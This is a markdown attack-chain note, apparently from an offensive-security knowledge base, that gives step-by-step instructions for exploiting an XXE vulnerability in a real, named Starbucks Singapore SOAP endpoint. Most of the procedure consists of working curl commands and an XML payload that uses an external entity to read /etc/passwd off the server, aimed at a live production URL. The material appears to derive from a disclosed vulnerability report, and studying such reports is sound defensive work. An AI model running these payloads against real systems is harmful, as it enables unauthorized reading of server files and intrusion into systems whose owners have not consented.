

---
tags:
  - xxe
  - soap
  - xml
  - file-reading
type: attack_chain
tools:
  - '[[tools/Curl]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-send-soap-request]]'
  - '[[commands/xxe-payload-test]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Identify-SOAP-Endpoint]]'
  - '[[procedures/Craft-XXE-Payload]]'
  - '[[procedures/Exploit-XXE-for-File-Reading]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
description: Exploitation of XXE vulnerability in a SOAP API to read arbitrary server files
skill_level: intermediate
impact_level: medium
id: eba8d7c1-4f40-4ff2-ac7e-a6ca3639ce9e
created_at: '2025-12-13T09:00:27.939Z'
updated_at: '2025-12-13T09:00:27.939Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# XXE Injection in SOAP Endpoint for Arbitrary File Reading

## Overview

This attack chain demonstrates the exploitation of an XML External Entity (XXE) vulnerability in the Starbucks Singapore SOAP API endpoint. The vulnerability allows attackers to inject malicious XML payloads that process external entities, enabling arbitrary reading of files on the remote server. Discovered during testing, the exploit involves crafting and sending payloads to the endpoint at https://www.starbucks.com.sg/RestApi/soap11. While no sensitive data was exposed in this case, the technique highlights risks in XML parsers configured without proper restrictions.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools
- [[tools/Curl]]

### Target Environment
- Web-based SOAP API
- Endpoint: https://www.starbucks.com.sg/RestApi/soap11
- XML parser supporting external entities

### Initial Access Requirements
- Network access to the target endpoint
- No credentials required (public-facing API)

## Detailed Attack Procedures

### Step 1: Identify SOAP Endpoint
procedure: [[procedures/Identify-SOAP-Endpoint]]

**Objective**: Locate and verify the vulnerable SOAP endpoint for XXE injection.

**Instructions**: Use [[commands/curl-send-soap-request]] to test the endpoint availability:

```bash
curl -X POST https://www.starbucks.com.sg/RestApi/soap11 -H "Content-Type: text/xml" -d '<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Body><test/></soapenv:Body></soapenv:Envelope>'
```

**Expected Output**: A valid SOAP response indicating the endpoint is active.

**Success Indicators**:
- HTTP 200 OK response
- SOAP structure in the response body

### Step 2: Craft XXE Payload
procedure: [[procedures/Craft-XXE-Payload]]

**Objective**: Create a malicious XML payload that exploits the XXE vulnerability by defining and processing external entities.

**Instructions**: Construct the payload manually or using a text editor, incorporating an external entity reference to a local file like /etc/passwd. Reference [[commands/xxe-payload-test]] for validation:

```bash
echo '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Body><test>&xxe;</test></soapenv:Body></soapenv:Envelope>' > xxe_payload.xml
```

**Expected Output**: A well-formed XML file ready for submission.

**Success Indicators**:
- Payload parses without syntax errors
- Entity reference is correctly defined

### Step 3: Exploit XXE for File Reading
procedure: [[procedures/Exploit-XXE-for-File-Reading]]

**Objective**: Send the crafted payload to the endpoint and extract server file contents.

**Instructions**: Transmit the payload using [[commands/curl-send-soap-request]]:

```bash
curl -X POST https://www.starbucks.com.sg/RestApi/soap11 -H "Content-Type: text/xml" --data @xxe_payload.xml
```

Analyze the response for leaked file contents.

**Expected Output**: Response body containing contents of the targeted file, such as user listings from /etc/passwd.

**Success Indicators**:
- File contents appear in the SOAP response
- No error messages indicating entity processing restrictions

## Attack Chain Summary

### Key Achievements
1. Identification of vulnerable SOAP endpoint
2. Successful crafting of XXE payload
3. Arbitrary reading of server files

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics
- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
